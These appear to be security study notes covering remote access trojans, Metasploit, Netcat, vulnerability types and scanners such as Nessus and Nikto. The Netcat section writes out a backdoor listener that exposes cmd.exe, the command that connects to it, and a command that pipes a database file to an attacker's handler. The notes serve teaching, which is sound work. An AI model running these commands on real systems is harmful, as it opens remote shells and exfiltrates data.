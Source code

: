 **A remote access trojan (RAT)** is malware that gives an adversary the means of remotely accessing the network.
From the perspective of security posture assessment, a penetration tester might want to try to establish this sort of connection and attempt to send corporate information over the channel (data exfiltration).
An exploitation framework uses the vulnerabilities identified by an automated scanner and launches scripts or software to attempt to deliver matching exploits.
Depending on the access obtained via the exploit, the payload code may be used to open a command shell, create a user, install software, and so on.
The best-known exploit framework is **Metasploit** 
# NETCAT
- Netcat can be used for port scanning and fingerprinting, establish connections with remote machines.
- To configure Netcat as a backdoor, you first set up a listener on the victim system (IP 10.1.0.1) set to pipe traffic from a program, such as the command interpreter, to its handler: 
   `nc -l -p 666 -e cmd.exe`
- The following command connects to the listener and grants access to the terminal: 
   `nc 10.1.0.1 666`
Used the other way around, Netcat can be used to receive files.
• For example, on the target system the attacker runs the following: 
`type accounts.sql | nc 10.1.0.192 6666 `
• On the handler (IP 10.1.0.192), the attacker receives the file using the following command:
`nc -l -p 6666 > accounts.sql`
# VULNERABILITY TYPES
- Zero-Day
- Legacy Platform
- Default Settings (for routers)
- Unsecured Root Accounts
- Open Permissions
- Open Ports and Services
- Unsecure Protocols
- Weak Encryption
- Errors
# VULNERABILITY SCAN TYPES
**Network Vulnerability Scanner** :
A network vulnerability scanner, such as Tenable Nessus (tenable.com/products/nessus or OpenVAS (openvas.org ) ), is designed to test network hosts, including client PCs, mobile devices, servers, routers, and switches.
It examines an organization's on-premises systems, applications, and devices and compares the scan results to configuration templates plus lists of known vulnerabilities. 
Typical results from a vulnerability assessment will identify missing patches, deviations from baseline configuration templates, and other related vulnerabilities.

**Web Application Scanners** :
Tools such as Nikto (cirt.net/Nikto2 ) look for known web exploits, such as SQL injection and cross-site scripting (XSS), and may also analyze source code and database security to detect unsecure programming practices.